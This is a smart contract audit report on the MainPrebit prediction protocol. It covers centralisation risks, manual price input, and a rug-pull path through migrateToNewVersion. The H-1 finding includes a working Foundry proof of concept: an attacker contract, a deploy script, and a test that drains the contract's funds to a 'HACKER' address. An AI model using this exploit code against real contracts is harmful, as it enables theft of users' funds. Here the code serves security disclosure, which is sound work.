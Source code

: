
### [M-1] Manual Contract Deployment Issue
**Description:**
The MainPrebit SmartContracts are deployed manually without the use of a deployer contract. This approach may inadvertently lead to a centralized protocol, as it does not provide a standardized or automated method for deploying new contract versions or instances.

**Impact:**
The manual deployment process introduces several risks and challenges. It may limit the protocol's scalability and flexibility, as each deployment necessitates manual intervention. This could also amplify the potential for human error, potentially leading to deployment issues or vulnerabilities. Moreover, the manual deployment process significantly heightens security risks. If the private key of the owner (deployer) account is compromised, the project could be at risk, with all funds potentially at stake. This centralization of control over deployment exposes the protocol to unauthorized access or malicious activities, jeopardizing the platform's security and integrity.


**Proof of Concept:**
Upon reviewing the project's smart contracts, it was observed that the deployment of the MainPrebit SmartContracts is done through custom scripts and manual execution. This lack of a deployer contract was NOT confirmed through discussions with the project team.(because I had no access to them) The deployer of the MainPrebit SmartContract is the address below, as verified from the BSC block explorer: [0x47B11a3afE6538e299c138C031264A10802a7E7A].

**Recommended Mitigation:**
To mitigate this issue, the project should implement a deployer contract that automates the deployment process. This contract could manage the deployment of new contract versions or instances, ensuring consistency and reducing the risk of human error. Additionally, adopting a standardized deployment framework or tool could further enhance the protocol's scalability and adaptability. The project team should also consider implementing automated testing and verification processes to ensure the security and reliability of each deployment.




### [M-2] Manual Prebit Management Issue
**Description:**
The process of ending the current prebits and starting the next prebit is manually managed by the operator address. This manual approach lacks automation and efficiency, potentially leading to delays or errors in the prediction rounds.

**Impact:**
The manual management of prebits can introduce several risks and challenges. It may lead to delays in the prediction rounds, affecting user participation and engagement. Additionally, it could increase the potential for human error, leading to incorrect management of prediction rounds or vulnerabilities in the system. This manual approach also limits the scalability and flexibility of the protocol, as it does not provide a standardized or automated method for managing prediction rounds.

**Proof of Concept:**
Upon reviewing the project's smart contracts and documentation, it was observed that the management of prebits is done manually by the operator address. This lack of automation was not confirmed through discussions with the project team. The Operator of the MainPrebit SmartContract is the address below, as verified from the BSC block explorer: [0x531b5C8bf9f2d0E069b48F01Bc129B06f9f603ca]

**Recommended Mitigation:**
To mitigate this issue, the project should implement automation protocols, such as Chainlink Automation, for managing prebits. This automation could ensure that prebits are ended and new ones are started in a timely and error-free manner, enhancing the efficiency and reliability of the prediction rounds. Additionally, adopting a standardized automation framework or tool could further enhance the protocol's scalability and adaptability. The project team should also consider implementing automated testing and verification processes to ensure the security and reliability of each prediction round.

### [H-2] Manual BTC Price Input Issue

**Description:**
The `MainPrebit::executeDrawFinalPrice` function is provided with the price of BTC manually. This manual input method poses a risk of severe malfunction if the price is not entered correctly, potentially compromising the integrity and reliability of the protocol.

**Impact:**
The reliance on manual BTC price input can introduce several risks and challenges. It may lead to inaccuracies in the prediction rounds, affecting user participation and engagement. Additionally, it could increase the potential for human error, leading to incorrect price inputs and vulnerabilities in the system. This manual approach also limits the protocol's ability to adapt to real-time market conditions, potentially affecting its long-term sustainability and security.

**Proof of Concept:**
Upon reviewing the project's smart contracts and documentation, it was observed that the `MainPrebit::executeDrawFinalPrice` function relies on manual input for the BTC price. This manual input method was not confirmed through discussions with the project team but was deduced through a thorough examination of the project's codebase and deployment practices. It should be noted that the project team may use custom scripts for this purpose. However, due to the absence of documentation or available GitHub repositories, there is a need to highlight this aspect, emphasizing the importance of transparency and standardized practices in smart contract development and deployment.

**Recommended Mitigation:**
To mitigate this issue, the project should implement a price oracle, such as Chainlink Price Feeds, for the `MainPrebit::executeDrawFinalPrice` function. This automation could ensure that the BTC price is accurately and reliably fetched from a trusted source, enhancing the protocol's accuracy and reliability. Additionally, adopting a standardized oracle framework or tool could further enhance the protocol's scalability and adaptability. The project team should also consider implementing automated testing and verification processes to ensure that the utilized oracle works correctly.




### [H-1] Potential for Rug Pull via `MainPrebit::migrateToNewVersion` Function 

**Description:**
The `MainPrebit::migrateToNewVersion` function within the smart contract could be exploited to execute a rug pull. This function, if not properly secured or audited, will allow the contract owner to withdraw funds from the contract without returning them to the users.

**Impact:**
The potential for a rug pull through the `MainPrebit::migrateToNewVersion` function poses a significant risk to the protocol and its users. It could lead to a loss of trust in the platform, as users may fear that their funds could be withdrawn without their consent. This could also have legal and financial implications for the project, as well as reputational damage. Additionally, it could affect the protocol's long-term sustainability and security, as it undermines the trust and confidence of its users.

**Proof of Concept:**
Upon reviewing the project's smart contracts and documentation, it was observed that the `MainPrebit::migrateToNewVersion` function within the smart contract could potentially be exploited to execute a rug pull. This potential vulnerability was identified through a test suite developed using an `attacker.sol` contract, which is a copy of the `mainPrebit.sol` contract but includes a function designed to empty the contract of all funds. the function is as below: 
<details>

```javascript

    function emptyContract(address recipient) external onlyOwner {
        uint256 balance = payToken.balanceOf(address(this));
        payToken.transfer(recipient, balance);
    }
```

</details>

The test suite, executed in Foundry, simulates the process by which the protocol owner could exploit the `MainPrebit::migrateToNewVersion` function to transfer all funds to a new address without returning them to the users. This process involves:
0. Deploying the contracts on localchain (Anvil): The Deploy Script written to deploy main and attacker contracts is as below:

<details>
<summary> Deployer Script </summary>

```javascript
    // SPDX-License-Identifier: MIT

    pragma solidity ^0.8.19;

    import {Script} from "lib/forge-std/src/Script.sol";
    import {MainPrebit} from "../src/Main.sol";
    import {Attacker} from "../src/Attacker.sol";

    import {PrebitReferrals} from "../src/PrebitReferrals.sol";
    import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
    import {MainPrebitInjector} from "../src/Injector.sol";
    import {PrebitBonusToken} from "../src/BonusToken/WUSD.sol";

    contract DeployPrebit is Script {
        function run()
            external
            returns (
                MainPrebit,
                PrebitReferrals,
                ERC20Mock,
                PrebitBonusToken,
                Attacker
            )
        
        {
            vm.startBroadcast();

            ERC20Mock tokenMock = new ERC20Mock(
                "PayToken",
                "PT",
                msg.sender,
                1000e18
            );
            PrebitReferrals referrals = new PrebitReferrals();
            MainPrebitInjector injector = new MainPrebitInjector(
                address(tokenMock),
                address(referrals)
            );
            PrebitBonusToken bounsToken = new PrebitBonusToken();
            MainPrebit mainPrebit = new MainPrebit(
                address(tokenMock),
                address(referrals),
                address(injector),
                address(bounsToken)
            );
            referrals.addAllowedContract(address(mainPrebit));
            mainPrebit.setOperatorAndTreasuryAndInjectorAddresses(
                msg.sender,
                msg.sender,
                address(injector)
            );
            Attacker attacker = new Attacker(
                address(tokenMock),
                address(referrals),
                address(mainPrebit),
                address(bounsToken)
            );
            vm.stopBroadcast();
            return (mainPrebit, referrals, tokenMock, bounsToken, attacker); 
        }
    }
```
</details>


1. **Initial Setup**: The test begins by setting up the environment with `MainPrebitTest::startGenesisPreBitAndBuyPrecards` modifier, which initializes the prediction round and allows users to buy precards.

2. **Warping Time and Ending the Prebit**: The test simulates the passage of time and ends the current prebit by calling `MainPrebit::executeDrawFinalPrice`. This step is crucial for setting up the conditions under which a rug pull could occur. Because the migration function cannot be called when a prebit in is progress.

3. **Claiming Rewards**: Although not strictly necessary for the exploit, claiming rewards demonstrates the process by which users would normally interact with the contract. This step is included to provide a more realistic scenario.

4. **Pre-Migration Balances**: The test checks the balances of the main contract and the attacker contract before migration. This is a critical step to establish a baseline for comparison.

5. **Migration to the Attacker Contract**: The test simulates the migration of the main contract to the attacker contract, which is designed to exploit the `MainPrebit::migrateToNewVersion` function. This step is the core of the test, demonstrating how the contract's owner could potentially use this function to transfer all funds to a new contract.

6. **Post-Migration Balances**: After migration, the test checks the balances again to confirm that the funds have been transferred from the main contract to the attacker contract.

7. **Rug Pull Execution**: Finally, the test executes the `Attacker::emptyContract` function of the attacker contract, simulating the transfer of all assets to a secure address (in this case, `HACKER`). This step is where the rug pull would occur, with the contract's funds being moved without returning them to the users.

8. **Final Balance Check**: The test verifies that the `HACKER` has received the funds that were originally in the main contract, confirming the successful execution of the rug pull.

This test suite effectively demonstrates the potential vulnerability of the `migrateToNewVersion` function to a rug pull. It provides a clear pathway for exploitation, from the setup of the environment to the execution of the exploit, and concludes with a verification of the exploit's success. This is a valuable contribution to identifying and mitigating potential security risks in smart contracts.
<details>
<summary>Rug Pull Test Function</summary>

```javascript
    function testRugPull() public startGenesisPreBitAndBuyPrecards {
        /** in this function using the attacker.sol which is a copy
         *  of the mainPrebit.sol but with a function which can empty
         *  the contract from all fudns, we case show the process to
         *  how the protocol owner can do a rug pull
         */

        uint256 Id = mainPrebit.currentPreBitId();
        // warp time and end the prebit and roll the block number
        vm.warp(openTimestamp + 3600 + 101);
        vm.roll(block.number + 1);
        //ending the current prebit
        mainPrebit.executeDrawFinalPrice(Id, CURRENT_BTC_PRICE, 10);
        vm.prank(USER);
        //claiming rewards - even this process may not be necessary owner might be able to empty the contract without paying the winners, ive not tested it yet:)
        mainPrebit.claimRewardPrebit(Id);

        uint256 mainContractBalanceBeforeMigration = tokenMock.balanceOf(
            address(mainPrebit)
        );
        uint256 rugPullContractBalanceBeforeMigration = tokenMock.balanceOf(
            address(attacker)
        );
        // asserts if the initial balance of the main contract if zero
        assert(mainContractBalanceBeforeMigration != 0);
        console.log(
            "Contract 1 Balance Before Migration:",
            mainContractBalanceBeforeMigration
        );
        console.log(
            "Contract 2 Balance Before Migration:",
            rugPullContractBalanceBeforeMigration
        );
        // migrating the main contract to the attacker(rug pull) contract as owner address
        vm.startPrank(OWNER);
        mainPrebit.migrateToNewVersion(address(attacker));
        // checking the balances again
        uint256 mainContractBalanceAfterMigration = tokenMock.balanceOf(
            address(mainPrebit)
        );
        console.log(
            "Contract 1 Balance after Migration:",
            mainContractBalanceAfterMigration
        );
        uint256 rugPullContractBalanceAfterMigration = tokenMock.balanceOf(
            address(attacker)
        );
        console.log(
            "Contract 2 Balance after Migration:",
            rugPullContractBalanceAfterMigration
        );
        // checking to see if the contract is completely migrated to new contract
        assertEq(
            mainContractBalanceBeforeMigration +
                mainContractBalanceAfterMigration,
            rugPullContractBalanceBeforeMigration +
                rugPullContractBalanceAfterMigration
        );
        // calling the rug pull contract emptyContract function to move all the assets to a secure address(HACKER)
        uint256 hackerBalanceBeforeHack = tokenMock.balanceOf(HACKER);
        console.log("Hacker Balance before Hack:", hackerBalanceBeforeHack);
        attacker.emptyContract(HACKER);
        uint256 hackerBalanceAfterHack = tokenMock.balanceOf(HACKER);
        console.log("Hacker Balance after Hack:", hackerBalanceAfterHack);
        //chekc if the HACKER got the attacker contract balance
        assertEq(
            hackerBalanceAfterHack,
            hackerBalanceBeforeHack + rugPullContractBalanceAfterMigration
        );
    }
```

</details>


**Recommended Mitigation:**
To mitigate this issue, the project should conduct a thorough audit of the `MainPrebit::migrateToNewVersion` function and ensure that it is securely implemented. This audit should include checks for potential vulnerabilities that could be exploited for a rug pull. Additionally, the project should implement safeguards to prevent unauthorized access or manipulation of the function. The project team should also consider providing detailed documentation on the function's operation and security measures to reassure users and stakeholders of the protocol's commitment to security and transparency.
